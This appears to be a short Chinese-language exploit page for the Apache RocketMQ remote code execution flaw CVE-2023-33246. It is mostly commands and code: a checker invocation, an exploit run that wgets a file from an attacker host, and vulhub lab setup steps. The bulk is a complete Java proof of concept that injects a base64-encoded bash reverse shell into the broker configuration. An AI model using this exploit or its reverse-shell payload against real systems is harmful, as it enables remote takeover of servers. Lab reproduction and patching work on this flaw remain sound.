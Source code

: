     
    
    python3 check.py --ip 10.10.14.72 --port 9876

![](https://gitee.com/fuli009/images/raw/master/public/20230616185553.png)

    
    
    python3 CVE-2023-33246_RocketMQ_RCE_EXPLOIT.py 10.10.14.72 10911 wget  10.10.14.162:8666/1.txt

![]()

使用vulhub直接搭建可能效果好一点儿，否则，不知道为什么在漏洞利用执行上面命令的时候无回显，可能exp的问题

    
    
    cd vulhub/rocketmq/CVE-2023-33246  
    docker-compose up -d

POC如下

    
    
    import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;  
      
    import java.util.Base64;  
    import java.util.Properties;  
      
    public class poc {  
        private static String getCmd(String ip, String port) {  
            String cmd = "bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1";  
            String cmdBase = Base64.getEncoder().encodeToString(cmd.getBytes());  
            return "-c $@|sh . echo echo \"" + cmdBase + "\"|base64 -d|bash -i;";  
        }  
      
        public static void main(String[] args) throws Exception {  
            String targetHost = "目的IP";  
            String targetPort = "10911";  
          
            String shellHost = "VPSIP";  
            String shellPort = "Listen-port";  
          
            String targetAddr = String.format("%s:%s",targetHost,targetPort);  
            Properties props = new Properties();  
            props.setProperty("rocketmqHome", getCmd(shellHost,shellPort));  
            props.setProperty("filterServerNums", "1");  
            // 创建 DefaultMQAdminExt 对象并启动  
            DefaultMQAdminExt admin = new DefaultMQAdminExt();  
      
    //        admin.setNamesrvAddr("0.0.0.0:12345");  
            admin.start();  
            // 更新配置⽂件  
            admin.updateBrokerConfig(targetAddr, props);  
            Properties brokerConfig = admin.getBrokerConfig(targetAddr);  
            System.out.println(brokerConfig.getProperty("rocketmqHome"));  
            System.out.println(brokerConfig.getProperty("filterServerNums"));  
            // 关闭 DefaultMQAdminExt 对象  
            admin.shutdown();  
        }  
    }
